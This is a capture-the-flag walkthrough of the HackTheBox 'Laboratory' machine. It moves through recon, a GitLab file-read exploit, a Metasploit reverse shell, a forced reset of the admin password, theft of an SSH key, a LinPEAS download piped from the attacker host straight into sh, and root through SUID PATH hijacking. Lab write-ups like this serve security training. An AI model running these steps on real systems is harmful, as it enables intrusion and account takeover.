# Laboratory

## Recon

`nmap -sV -T4 -p- 10.10.10.216`

```text
PORT    STATE SERVICE  VERSION                                  
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41                                     
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))              
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accessing the IP address via HTTP returns a 302 status code, and redirects to `https://laboratory.htb/`



Add the following line to the `/etc/hosts` file:

```text
10.10.10.216    laboratory.htb
```

Now the page displays properly.



If we scroll down, we can see that Dexter is listed as the CEO of the company.

Looking at the source code:



Navlinks commented out. However, `elements.html` and `generic.html` do not exist.

`gobuster dir -u https://laboratory.htb/ -w /usr/share/wordlists/dirb/common.txt -k`

```text
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
```

When I first ran gobuster without the `-w` flag, I got this error:

```text
Error: error on running goubster: unable to connect to https://laboratory.htb/: invalid certificate: x509: certificate is valid for git.laboratory.htb, not laboratory.htb
```

So I added the following to `/etc/hosts`:

```text
10.10.10.216    git.laboratory.htb
```

and accessed `git.laboratory.htb`.



## Foothold

`searchsploit gitlab`

```text
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab - 'impersonate' Feature Privilege Escalation                                                                                          | ruby/webapps/40236.txt
GitLab 11.4.7 - RCE (Authenticated)                                                                                                          | ruby/webapps/49334.py
Gitlab 11.4.7 - Remote Code Execution                                                                                                        | ruby/webapps/49257.py
GitLab 11.4.7 - Remote Code Execution (Authenticated)                                                                                        | ruby/webapps/49263.py
GitLab 12.9.0 - Arbitrary File Read                                                                                                          | ruby/webapps/48431.txt
Gitlab 12.9.0 - Arbitrary File Read (Authenticated)                                                                                          | ruby/webapps/49076.py
Gitlab 6.0 - Persistent Cross-Site Scripting                                                                                                 | php/webapps/30329.sh
Gitlab-shell - Code Execution (Metasploit)                                                                                                   | linux/remote/34362.rb
Jenkins Gitlab Hook Plugin 1.4.2 - Reflected Cross-Site Scripting                                                                            | java/webapps/47927.txt
NPMJS gitlabhook 0.0.17 - 'repository' Remote Command Execution                                                                              | json/webapps/47420.txt
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

I went ahead and created an account. Note: to overcome the email domain validation, use `@laboratory.htb` for the email domain.



### First Try: Gitlab 12.9.0 - Arbitrary File Read

Found an exploit code here: [https://github.com/thewhiteh4t/cve-2020-10977](https://github.com/thewhiteh4t/cve-2020-10977)

\(for Gitlab 12.9.0 - Arbitrary File Read\)

`python3 gitlab_exploit.py https://git.laboratory.htb me zeyu2001`

We can read the `/etc/passwd` file:



### Second Try: Gitlab 11.4.7 - Remote Code Execution

Didn't work with any of the open-source Python scripts. If this was the actual OSCP, I would have used my Metasploit 'budget' on this machine.



Using Metasploit with the above options, I was able to spawn a reverse shell.

'Upgrade' the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

## User Flag

Now that we gained a shell as the `git` user, we are inside the `gitlab-rails` CLI. In order to gain access to Dexter's account, we need to reset the password, like this: [https://docs.gitlab.com/ee/security/reset\_user\_password.html](https://docs.gitlab.com/ee/security/reset_user_password.html)

Since Dexter is likely the 'main user', I guessed that his user ID is 1.



Full commands to reset the password via Rails Console:

```text
gitlab-rails console -e production
user = User.find(1)
user.password = 'mynewpass'
user.password_confirmation = 'mynewpass'
user.save!
exit()
```

Using the `dexter:mynewpass` combination, we can login to the GitLab web GUI.



I then tried to SSH into Dexter's account, but a public/private key pair is required.

From the SecureDocker repo, we can navigate to `securedocker/dexter/.ssh/id_rsa` to get the private key. Save this in a file `id_rsa` on the attacking machine. Note that the public key for this privste key is in the `securedocker/dexter/.ssh/authorized_keys` file.



SSH in: `ssh -i id_rsa dexter@git.laboratory.htb`. We can now get the `user.txt`:



## Root Flag

Run LinPEAS \(start Python Simple HTTP Server on attacking machine, then do `curl "http://10.10.14.16/linpeas.sh" | sh` in SSH\)

### Try 1: containerd / runc



Sadly, neither worked.

### Try 2: SUID Files

In the list of SUID files \(from the LinPEAS output\), the `/usr/local/bin/docker-security` binary looked out of place.



Strings wasn't installed on the target machine, so I downloaded the binary into my Kali machine: `scp -i id_rsa dexter@laboratory.htb:/usr/local/bin/docker-security .`

### PATH Variable Manipulation

`strings docker-security`



Good, the binary uses _relative_ paths for `setuid`, etc. This allows us to create our own `setuid` binary, and manipuate the PATH variable so that our own binary is executed instead.

#### Standard Steps

* Change working directory to `/tmp`: `cd /tmp`
* Copy the `/bin/sh` shell and call it `setuid`: `echo /bin/sh > setuid`
* Give the correct permissions: `chmod 777 setuid`
* Put its location, the `/tmp` directory, in the PATH: `export PATH=/tmp:$PATH`

```bash
dexter@laboratory:~$ cd /tmp
dexter@laboratory:/tmp$ echo /bin/sh > setuid
dexter@laboratory:/tmp$ chmod 777 setuid
dexter@laboratory:/tmp$ export PATH=/tmp:$PATH
dexter@laboratory:/tmp$ /usr/local/bin/docker-security
```

Since the SUID flag is set, the `/bin/sh` is run as `root`, which is the _owner_ of the file. Here, we created a fake `setuid` binary and added the `/tmp` directory to the PATH. When the `docker-security` binary runs `setuid`, our fake binary is run, spawning a bash shell as root.

### Getting the Root Flag



